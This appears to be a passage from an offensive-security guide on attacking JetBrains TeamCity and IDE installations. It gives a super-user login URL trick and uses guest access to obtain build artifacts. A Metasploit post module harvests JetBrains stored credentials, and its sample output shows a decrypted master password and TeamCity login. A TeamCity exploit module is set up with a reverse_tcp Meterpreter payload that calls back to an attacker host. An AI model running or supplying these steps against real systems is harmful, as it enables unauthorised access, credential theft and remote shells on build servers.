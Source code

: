 Now you can login using: `http://teamcity/login.html?super=1`

#### Guest user
TeamCity allows you to turn on [guest login](https://confluence.jetbrains.com/display/TCD10/Guest+User) which allows anonymous access to the TeamCity web UI.

A server administrator can enable guest login on the **Administration | Authentication page**.

You can use this for obtaining build artifacts.

#### JetBrains metasploit module

Let's assume that you have valid Meterpreter session with `#1`

```
use post/jetbrains
set SESSION 1
exploit
```

Output looks like this:

```
msf exploit(multi/handler) > use post/jetbrains
msf post(jetbrains) > set session 5
session => 5
msf post(jetbrains) > exploit

[*] Running as user 'WIN10\root'...
[*] Profile path: C:\Users\root\
[*] Found potential JetBrains dir: .PyCharm2017.2
[*] Found pdb file: C:\Users\root\.PyCharm2017.2\config\pdb.pwd
[*] Found kdbx file: C:\Users\root\.PyCharm2017.2\config\c.kdbx
[*] CryptUnprotectData successful
[*] IV length: 16
[*] Master password: yrEHFsgqLasoN87/fuH8TbME5Vn1OMmdRiTy+B05s9M
[*] TeamCity: http://my_teamcity_server.local
[*] Username: my_teamcity_login
[*] Password: my_teamcity_password
[*] Post module execution completed
```

#### TeamCity metasploit module

Basic usage:

```
use exploit/teamcity
set RHOST 192.168.1.1
set RPORT 8111
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST 192.168.1.118
set LPORT 4444
set USERNAME your_user_name
set PASSWORD your_password
exploit
```
